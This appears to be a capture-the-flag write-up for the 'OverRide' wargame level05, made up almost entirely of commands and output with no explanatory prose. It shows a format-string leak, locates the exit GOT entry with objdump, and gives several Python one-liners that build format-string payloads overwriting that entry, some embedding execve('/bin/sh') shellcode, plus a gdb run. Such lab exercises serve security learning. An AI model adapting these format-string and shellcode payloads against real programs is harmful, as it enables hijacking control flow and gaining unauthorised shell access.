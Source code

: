 ```
$> python -c "import struct; print('AAAABBBB' + '%x ' * 11)" | ./level05
aaaabbbb64 f7f39580 1 0 1 f7f99980 ffffffff 1 0 61616161 62626262
```

<pre>
echo | ltrace ./level05 1>&-
\__libc_start_main(0x8048444, 1, -10540, 0x8048520, 0x8048590 <unfinished ...>
<strong>fgets("\n", 100, 0xf7fcfac0)     = 0xffffd5c8</strong>
printf("\n")                     = 1
exit(0 <unfinished ...>
+++ exited (status 0) +++
</pre>

<pre>
level05@OverRide:~$ objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
<strong>080497e0 R_386_JUMP_SLOT   exit</strong>
080497e4 R_386_JUMP_SLOT   __libc_start_main
</pre>

```
(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e1) + struct.pack('<I', 0x080497e2) + struct.pack('<I', 0x080497e3) + '%180d' + '%11\$n' + '%13d' + '%12\$n' + '%42d' + '%13\$n' + '%14\$n')")
```
```
(python -c "import struct; print('jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' + 'AAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e1) + struct.pack('<I', 0x080497e2) + struct.pack('<I', 0x080497e3) + '%140d' + '%21\$n' + '%13d' + '%22\$n' + '%42d' + '%23\$n' + '%24\$n')")
```
```
(python -c "import struct; print('jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' + 'AAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%54676d' + '%21\$n' + '%10807d' + '%22\$n')")
```
```
(python2.7 -c "import struct; print('jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814\$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' + 'AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%54672d' + '%22\$n' + '%10807d' + '%23\$n')") | ./level05
```
<pre>
env -i SHELLCODE="$SHELLCODE" SHELL=/bin/bash gdb ./level05
(gdb) r < <(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%57205d' + '%11\$n' + '%8318d' + '%12\$n')"; cat)
</pre>
